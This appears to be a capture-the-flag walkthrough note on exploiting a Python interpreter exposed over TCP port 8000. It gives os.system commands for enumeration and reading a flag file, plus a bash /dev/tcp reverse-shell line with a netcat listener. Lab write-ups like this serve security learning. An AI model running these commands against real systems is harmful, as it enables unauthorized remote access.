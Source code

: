 # PYTHON/BASH CODE FOR SHELL EXECUTION in netcat

* That service on port `8000` isn’t a normal shell.
* It’s a **Python REPL (interpreter)** exposed over TCP.
* That’s why when you typed `ls`, it said *“name 'ls' is not defined”* — because `ls` isn’t a Python command, it’s a Linux one.

###✅ Next Steps (Enumeration in a Python REPL)

1. **Confirm Python Execution**

   * Try something simple:

     ```python
     2+2
     ```

     If it returns `4`, you know you’re inside Python.

2. **Import OS Commands**

   * You can use Python’s `os` or `subprocess` to run shell commands.
   * Example:

     ```python
     import os
     os.system("ls")
     ```

     or:

     ```python
     __import__('os').system('id')
     ```

3. **Check Current User / Privileges**

   ```python
   os.system("whoami")
   os.system("id")
   ```

4. **Explore Filesystem**

   ```python
   os.system("ls -la /")
   os.system("ls -la /home")
   ```

5. **Search for the Flag**

   * Usually in `/home/<user>` or `/root`.

   ```python
   os.system("cat /home/pyrat/user.txt")
   ```

6. **(If Needed) Upgrade Shell**

   * Sometimes you can spawn a reverse shell back to your machine:

     ```python
     os.system("bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1")
     ```

     Then catch it with:

     ```bash
     nc -lvnp <your-port>
     ```


